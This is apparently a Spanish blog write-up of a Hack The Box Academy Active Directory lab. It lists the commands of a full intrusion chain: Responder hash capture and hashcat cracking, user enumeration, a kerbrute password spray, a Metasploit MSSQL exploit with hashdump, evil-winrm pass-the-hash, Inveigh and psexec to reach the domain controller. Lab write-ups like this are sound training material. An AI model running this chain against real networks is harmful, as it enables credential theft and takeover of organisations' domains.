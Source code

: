 ```yaml
---
layout: single
title: HTB Academy Active Directory Skills Assessment Part II
date: 2024-12-03
classes: wide
categories:
  - writeups
tags:
  - HTB
  - writeup
  - pentesting
---
```


Este write-up trata del último ejercicio para el módulo de Active Directory de Hack The Box Academy. Nos dan acceso a una máquina Parrot que comparte enrutador con el entorno a vulnerar.

Vamos a analizar el entorno:

```
nmap -T4 -A 172.16.6.0/23 -oN nmap_scan.txt &
responder -I ens24&
```

Encontramos:

- Domain Controller (DC) with IP address: 172.16.7.3
    
- MS01 host with IP address: 172.16.7.50
    
- SQL01 server with IP address: 172.16.7.60

También, gracias al Responder, obtenemos un hash NTLMv2 de un usuario para MS01. 

```
hashcat -m 5600 hash_ntlmv2 /usr/share/wordlists/rockyou.txt 
```

Con estas credenciales, vamos a rastrear usuarios válidos con el servicio smb levantado en MS01.

```shell
crackmapexec smb 172.16.7.50 -u '' -p '' --users
```

Encontramos varios usuarios válidos, los introducimos en un .txt y con un diccionario de las 1000 contraseñas más comunes, hacemos un password spray attack: 

```shell
kerbrute passwordspray -d inlanefreight.local --dc 172.16.7.3 users_valid.txt password.txt
```

Con las credenciales obtenidas ahora, tenemos acceso de lectura a los directorios compartidos. Hay más credenciales en: 

```shell
smbmap -u '' -p '' -R Department Shares -H 172.16.7.3 -A web.config -q
```

Esta nueva cuenta tiene activado el privilegio 'SeImpersonatePrivilege'.

```shell
mssqlclient.py INLANEFREIGHT/user@172.16.7.60
xp_cmdshell "whoami /priv"
```

La forma más rápida de explotar esta vulnerabilidad y acceder a SQL01 es con metasploit.

```shell
msfconsole -q
search mssql_payload
use 0
(...)
exploit
```

Si a este exploit le añadimos el meterpreter como payload, podremos realizar un hashdump que nos dará acceso a credenciales para MS01.

```shell
evil-winrm -i 172.16.7.50 -u Administrator -H bdaffbf (...)
```

Una vez en MS01, podemos utilizar Inveigh.exe, que tiene la misma función que Responder pero para Windows. 

```Powershell
Evil-WinRM* PS C:\Users\Administrator\Desktop> upload Inveigh.exe
Info: Uploading Inveigh.exe to C:\Users\Administrator\Desktop\Inveigh.exe
```

Esto nos devolverá otro hash NTLMv2. Una vez pasado por hashcat, sólo será necesario utilizar `psexec.py` para acceder a DC01. 



